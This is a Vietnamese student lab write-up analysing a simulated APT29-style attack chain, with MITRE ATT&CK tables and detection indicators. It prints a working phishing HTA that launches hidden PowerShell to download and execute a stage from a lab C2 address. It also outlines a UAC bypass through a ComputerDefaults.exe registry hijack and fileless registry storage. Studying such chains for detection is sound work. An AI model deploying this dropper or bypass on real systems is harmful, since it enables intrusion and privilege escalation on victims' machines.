# 1. Invoice_October.hta



```html
<html>
<head>
<title>Invoice October 2026</title>
<!-- KHỐI 1: TÀNG HÌNH VÀ ẨN GIAO DIỆN -->
<HTA:APPLICATION WINDOWSTATE="minimize" SHOWINTASKBAR="no"/>
<script language="VBScript">
    ' KHỐI 2: KHỞI TẠO ĐỐI TƯỢNG COM TƯƠNG TÁC OS
    Set WshShell = CreateObject("WScript.Shell")
    
    ' KHỐI 3: THỰC THI POWERSHELL TẢI VÀ THỰC THI TRONG BỘ NHỚ (FILELESS STAGER)
    WshShell.Run "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -Command ""IEX(New-Object Net.WebClient).DownloadString('http://192.168.56.100:8000/stage1.ps1')""", 0, false
    
    ' KHỐI 4: ĐÓNG CỬA SỔ VÀ XÓA DẤU VẾT HIỂN THỊ
    window.close()
</script>
</html>
```








**Đối tượng phân tích:** Tệp mồi nhử `Invoice_October.hta` (Initial Access - Kịch bản APT29)  
**Mục tiêu áp dụng:** Pha phân tích tĩnh, phân tích động và tổng hợp IoCs trong đồ án  

---

| Chiến thuật (Tactic) | Mã kỹ thuật (ID) | Tên kỹ thuật (Technique Name) | Hành vi chi tiết trong mẫu kịch bản | Bằng chứng / Chỉ báo phát hiện (Artifacts & IoCs) |
| :--- | :--- | :--- | :--- | :--- |
| **Initial Access**<br>*(Truy cập ban đầu)* | **T1566.001** | Phishing: Spearphishing Attachment | Sử dụng kỹ thuật Social Engineering đặt tên tệp mồi nhử dạng văn bản hành chính/tài chính (`Invoice October 2026`) để lừa người dùng nhấp mở. | - Tên tệp: `Invoice_October.hta`<br>- Hash SHA256/MD5 của tệp HTA ban đầu |
| **Execution**<br>*(Thực thi)* | **T1218.005** | System Binary Proxy Execution: Mshta | Lợi dụng binary hợp pháp của hệ điều hành `mshta.exe` (LOLBin) để biên dịch và thực thi mã kịch bản nhúng bên trong mà không kích hoạt cảnh báo chặn file thực thi chuẩn. | - **Sysmon Event 1:** `ParentImage` hoặc `Image` trỏ tới `C:\Windows\System32\mshta.exe` |
| **Execution**<br>*(Thực thi)* | **T1059.005** | Command and Scripting Interpreter: Visual Basic | Khai thác công cụ kịch bản VBScript tích hợp sẵn trong cấu trúc file HTA để gọi đối tượng COM `WScript.Shell` thực hiện giao tiếp với hệ điều hành. | - Thẻ script `<script language="VBScript">`<br>- Khởi tạo đối tượng `CreateObject("WScript.Shell")` |
| **Execution**<br>*(Thực thi)* | **T1059.001** | Command and Scripting Interpreter: PowerShell | Kích hoạt phiên thực thi `powershell.exe` làm trình thông dịch trung gian tải mã độc và xử lý logic giai đoạn kế tiếp. | - **Sysmon Event 1:** Tiến trình con `powershell.exe` được sinh ra từ `mshta.exe`<br>- **Volatility:** Cây tiến trình `pstree` thể hiện quan hệ cha - con |
| **Defense Evasion**<br>*(Né tránh phòng thủ)* | **T1027** | Obfuscated Files or Information: Argument Concealment | Che giấu hoàn toàn sự hiện diện trực quan: thu nhỏ cửa sổ (`WINDOWSTATE="minimize"`), ẩn icon trên Taskbar (`SHOWINTASKBAR="no"`), ẩn giao diện console (`-WindowStyle Hidden`, cờ `0`). | - Thuộc tính thẻ `<HTA:APPLICATION>`<br>- Chuỗi tham số dòng lệnh `-WindowStyle Hidden` |
| **Defense Evasion**<br>*(Né tránh phòng thủ)* | **T1562.001** | Impair Defenses: Disable or Modify Tools | Vượt qua cơ chế kiểm soát chính sách thực thi script trên máy client nạn nhân thông qua cờ tham số bỏ qua chính sách. | - Tham số `-ExecutionPolicy Bypass` trên dòng lệnh PowerShell |
| **Defense Evasion**<br>*(Né tránh phòng thủ)* | **T1620** | Reflective Code Loading | Kỹ thuật cốt lõi của Fileless Malware: Tải nội dung script trực tiếp vào chuỗi bộ nhớ (`DownloadString`) và biên dịch thực thi ngay lập tức qua `IEX` (`Invoke-Expression`) mà không tạo file `.ps1` trên ổ đĩa. | - **PowerShell Event 4104:** Bắt trọn nội dung mã script `stage1.ps1` khi giải nén vào bộ nhớ<br>- Không ghi nhận file creation trên đĩa cứng (Sysmon Event 11) |
| **Command and Control**<br>*(Chỉ huy & Điều khiển)* | **T1071.001** | Application Layer Protocol: Web Protocols | Khởi tạo phiên kết nối HTTP tiêu chuẩn về máy chủ C2 của kẻ tấn công (Kali Linux) qua cổng 8000 để kéo payload giai đoạn tiếp theo. | - URL C2: `http://192.168.56.100:8000/stage1.ps1`<br>- **Sysmon Event 3:** Kết nối mạng ra IP `192.168.56.100:8000`<br>- **Wireshark:** Gói tin `GET /stage1.ps1 HTTP/1.1` |








# 2. stage1.ps1



```txt
[Bắt đầu: stage1.ps1] 
         │
         ├──> Kiểm tra IsInRole(Administrator)? 
         │           │
         │           ├── [False] ──> Hàm Invoke-UACBypass (Leo thang quyền)
         │           │                     ├── Bước 1: Khai thác ComputerDefaults.exe + Registry Hijack
         │           │                     └── Bước 2 (Fallback): ShellExecute "RunAs"
         │           │
         │           └── [True]  ──> Hàm Invoke-Stage1Main (Thực thi chính)
         │                                 ├── Bước A: Tải wmi_setup.ps1 từ C2
         │                                 ├── Bước B: Mã hóa Base64 & Lưu vào Registry
         │                                 ├── Bước C: Đọc lại & Xác thực toàn vẹn
         │                                 └── Bước D: Giải mã & Thực thi ngầm qua IEX
```



```ps1
$isAdmin = ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)
```











# BẢNG ÁNH XẠ KỸ THUẬT MITRE ATT&CK - GIAI ĐOẠN STAGE 1 (UAC BYPASS & REGISTRY FILELESS)

| Chiến thuật (Tactic) | Mã kỹ thuật (Technique ID) | Tên kỹ thuật (Technique Name) | Hành vi triển khai cụ thể trong Script | Dấu vết / Bằng chứng giám sát (Artifacts & Logs) |
| :--- | :--- | :--- | :--- | :--- |
| **Privilege Escalation** | **T1548.002** | Abuse Elevation Control Mechanism: Bypass User Account Control | Lợi dụng cơ chế Auto-Elevate của tiến trình `ComputerDefaults.exe` kết hợp Registry Hijacking qua khóa `ms-settings` để chiếm quyền Administrator không cần xác nhận UAC. | **Sysmon Event ID 1**: `ComputerDefaults.exe` tạo tiến trình con `powershell.exe` với quyền elevated.<br>**Sysmon Event ID 12/13**: Ghi khóa `HKCU\Software\Classes\ms-settings\shell\open\command`. |
| **Execution** | **T1059.001** | Command and Scripting Interpreter: PowerShell | Sử dụng PowerShell để tải mã, giải mã Base64 và thực thi payload trong bộ nhớ bằng `IEX` (`Invoke-Expression`). | **PowerShell Event ID 4104**: Bắt trọn nội dung mã `stage1.ps1` và script con giải mã.<br>**Sysmon Event ID 1**: Dòng lệnh có cờ `-NoP -W H -Exec Bypass`. |
| **Defense Evasion** | **T1112** | Modify Registry | Ghi payload độc hại đã mã hóa Base64 vào khóa `HKCU\Software\Classes\APT29Stage1` thay vì lưu tệp thực thi xuống đĩa. | **Sysmon Event ID 12/13**: Thao tác ghi giá trị `Payload` vào `APT29Stage1` thông qua `reg.exe` hoặc PowerShell cmdlet. |
| **Defense Evasion** | **T1027** | Obfuscated/Argument Concealment | Chuyển đổi mã nguồn PowerShell sang chuỗi Unicode Base64 để che giấu nội dung tĩnh; ẩn giao diện với `-W H` (`-WindowStyle Hidden`). | Phân tích tĩnh chuỗi Base64; kiểm tra tham số dòng lệnh `powershell.exe` trong bảng tiến trình. |
| **Defense Evasion** | **T1070.004** | Indicator Removal: File / Registry Deletion | Xóa khóa Registry `HKCU\Software\Classes\ms-settings` ngay sau khi tiến trình elevated được kích hoạt nhằm xóa dấu vết tấn công. | **Sysmon Event ID 12**: Thao tác `DeleteKey` đối với khóa `ms-settings`. |
| **Defense Evasion** | **T1620** | Reflective Code Loading / In-Memory Execution | Thực thi nội dung script `wmi_setup.ps1` trực tiếp trong RAM thông qua biến chuỗi giải mã và lệnh `iex`, không ghi tệp mã nguồn ra hệ thống tệp. | **Memory Analysis**: Xuất hiện mã nguồn/shellcode trong vùng nhớ heap/private bytes của `powershell.exe`. |
| **Discovery** | **T1033** | System Owner/User Discovery | Kiểm tra thông tin tài khoản hiện tại thông qua thư viện .NET: `[Security.Principal.WindowsIdentity]::GetCurrent().Name`. | **PowerShell ScriptBlock (EID 4104)**: Ghi nhận câu lệnh truy vấn danh tính người dùng. |
| **Discovery** | **T1057** | Process Discovery | Truy vấn định danh tiến trình hiện tại qua biến nội hợp `\$PID`. | Ghi nhận tham số `\$PID` trong chuỗi log script. |
| **Command & Control** | **T1071.001** | Application Layer Protocol: Web Protocols | Sử dụng phương thức `DownloadString` của WebClient để tải `wmi_setup.ps1` từ máy chủ C2 qua giao thức HTTP cổng 8000. | **Sysmon Event ID 3**: Kết nối TCP từ `powershell.exe` đến IP `192.168.56.100:8000`.<br>**PCAP File**: Gói tin HTTP GET `/wmi_setup.ps1`. |




```latex
mshta.exe -> powershell.exe (Low/Medium Integrity) -> ComputerDefaults.exe -> powershell.exe (High Integrity/Admin)
```






